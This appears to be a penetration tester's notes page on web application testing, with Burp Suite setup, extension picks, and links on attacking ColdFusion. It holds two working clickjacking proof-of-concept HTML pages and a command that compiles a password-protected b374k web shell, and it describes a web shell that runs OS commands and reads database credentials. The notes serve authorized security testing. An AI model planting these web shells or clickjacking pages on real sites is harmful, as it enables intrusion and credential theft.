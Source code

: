 # Webapp Pentesting

Burp "Quick Start" guide
--------
I did a video demo of how to get up and going with Burp quickly in [episode #230](https://7ms.us/7ms-230-pentesting-owasp-juice-shop-part-1/) of the 7 Minute Security podcast.  It includes things like:

* Getting Burp installed
* Installing the SSL cert
* Installing FoxyProxy and proxying traffic through Burp
* Setting up a quick shell script to start Burp from the command line:
  * `java -Xmx2g -jar burpsuite.jar`


### Helpful extensions from the BApp store :

* [CO2](https://github.com/JGillam/burp-co2) has a bunch of tricks up its sleeve - my favorite of which is helping you craft sqlmap commands with the right flags

* [Reflector](https://github.com/elkokc/reflector) (**I've not tested this one**) claims to be able to find XSS in real time.  It doesn't integrate directly with Burp via the BApp Store, but definitely looks to be worth checking out.

* [retire.js](https://github.com/h3xstream/burp-retire-js) looks for old/outdated/vulnerable Javascript libraries *

* [Software Vulnerability Scanner](https://portswigger.net/bappstore/c9fb79369b56407792a7104e3c4352fb) helps you find vulnerable software, such as old versions of IIS.


Clickjacking sample
------
### Clickjacking

Here's a good page about [clickjacking](https://www.owasp.org/index.php/Testing_for_Clickjacking_(OTG-CLIENT-009)), and if you need to whip together a quick PoC for a client, I find this one works pretty well:

---

````
<html>
   <head>
     <title>Clickjack test page</title>
   </head>
   <body>
     <p>Website is vulnerable to clickjacking!</p>
     <iframe src="http://www.target.site" width="500" height="500"></iframe>
   </body>
</html>
````

---

As does this one:

````
<html>
<title>This is your totally safe corporate site...OR IS IT?!?!?!?!?!?</title>
  <head>
    <style>
      body {
        position: relative;
        margin: 0;
      }

      iframe, div, a {
        border: none;
        position: absolute;
        width: 100%;
        height: 100%;
      }

      div {
        z-index: 100;
      }

      a {
        display: block;
      }
    </style>
  </head>
  <body>
    <iframe src="https://name-of-site-without-sameorigin-set-correctly.com">
    </iframe>
    <div>
      <a href=" http://www.some-really-really-bad-site.com "></a>
    </div>
  </body>
</html>
````

ColdFusion
-----
Sites that help attacking CF:

https://jumpespjump.blogspot.com/2014/03/attacking-adobe-coldfusion.html
http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/
https://www.exploit-db.com/exploits/14641/ (contains path that CFIDE admin might live in)
https://github.com/averagesecurityguy/scripts/ - contains some scripts for attacking CF
https://dl.packetstormsecurity.net/papers/attack/topseven-coldfusion.pdf - top 5 CF vulns
https://www.cvedetails.com/vulnerability-list/vendor_id-53/product_id-8739/version_id-39015/Adobe-Coldfusion-7.0.html - CF 7 vulns
http://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf - great paper from Chris Gates on attacking CF



Payloads
--------
* [PayloadsAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is "a list of useful payloads and bypass for Web Application Security and Pentest/CTF."

* [XSS-Problems](https://github.com/karelorigin/XSS-Problems/tree/master) will "help you solve problems you might encounter while trying to XSS a target."

Web Shells
--------
### General guidance/usage
This [blog](https://www.aptive.co.uk/blog/unrestricted-file-upload-testing/) gives some great guidance and a checklist for using/abusing Webshells.

The [HighonCoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/) cheat sheet is also awesome.

#### Webshells for download

### B374K
One of my fav Web shells is [b374k](https://github.com/b374k/b374k), and as a quick ref, once you clone it from github, you can get a shell compiled pretty quick with:

`php -f index.php -- -o myShell.php -p MyPasswordGoesHere -s -b -z gzcompress -c 9`

### cmdsql
This nice [Webshell](https://github.com/NetSPI/cmdsql) from NetSPI is handy for the following tasks (according to the Web site)

* Execute operating system commands
* Parse web.config files for connection strings (based on root directory)
* Execute MSSQL queries using connection strings recovered from web.config files

Note: the accompanying [blog](https://blog.netspi.com/adding-powershell-to-web-shells-to-get-database-access/) reminds us that this only works on IIS sites that allow execution of .aspx files.

Upload functionality (abusing)
-------
[This site](https://www.aptive.co.uk/blog/unrestricted-file-upload-testing/) has some great tips for abusing file upload functionality.

XSS
------
Nice site showing the [risks of XSS](https://www.dionach.com/blog/the-real-impact-of-cross-site-scripting).
